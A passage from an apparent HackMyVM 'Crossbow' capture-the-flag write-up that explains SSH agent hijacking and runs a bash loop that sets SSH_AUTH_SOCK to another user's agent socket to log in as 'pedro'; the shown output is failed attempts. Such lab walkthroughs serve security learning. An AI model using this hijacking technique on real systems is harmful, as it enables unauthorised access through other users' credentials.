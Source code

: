 Now we should move to the `/tmp` directory. This directory is writeable for anyone and we can download here our scripts and tools to enumerate more. Let's first check what is already on this directory.

![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231213170605.png){: width="700" height="400" }

It looks like there are some SSH directories in the `/tmp` directory.

We should do a bit of research on Google on those directory names.
```
https://www.google.com/search?q='ssh-XXXXXX
```
One of the results tells us that we are talking about a ssh-agent.
```
https://askubuntu.com/questions/979911/strange-folder-in-tmp-with-name-ssh
```

Since this directory contains some interesting ssh-agent directories we should find out what processes are running on this system. We can use the command `ps -aux` to identify processes running by `lea` for example.
![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224072500.png){: width="700" height="400" }


There are some processes running as Lea on the system. We might be able to execute a SSH agent hijack. [SSH Hijacking](https://n3dx0o.medium.com/understanding-ssh-agent-and-ssh-agent-hijacking-a-real-life-scenario-2522475f7d8e) is a technique to leverage an existing SSH session to SSH into another machine. In order to access an SSH server (which uses public-key authentication) through another server, the private key is not kept on the server. Instead, ssh-agent forwarding is performed on the client machine. The SSH agent socket will be available on the server and can be used to authenticate with the other SSH server via the ssh-agent running on the client machine.

When we search for `'ssh-XXXXXX' ssh hacktricks` on Google we can find an article on hacktricks about ['SSH Agent forward exploitation'](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ssh-forward-agent-exploitation).



```bash
for i in {1070..1110}; do SSH_AUTH_SOCK=ssh-XXXXXXKvFHFm/agent.$1 ssh pedro@10.0.2.9; done
```

```bash
polo@crossbow:/tmp$ for i in {1080..1090}; do SSH_AUTH_SOCK=ssh-XXXXXXKvFHFm/agent.$i ssh pedro@10.0.2.9; done
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
pedro@10.0.2.9: Permission denied (publickey,password).
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
pedro@10.0.2.9: Permission denied (publickey,password).
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
pedro@10.0.2.9: Permission denied (publickey,password).
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
Permission denied, please try again.
pedro@10.0.2.9's password: 
pedro@10.0.2.9: Permission denied (publickey,password).
pedro@10.0.2.9's password: 
```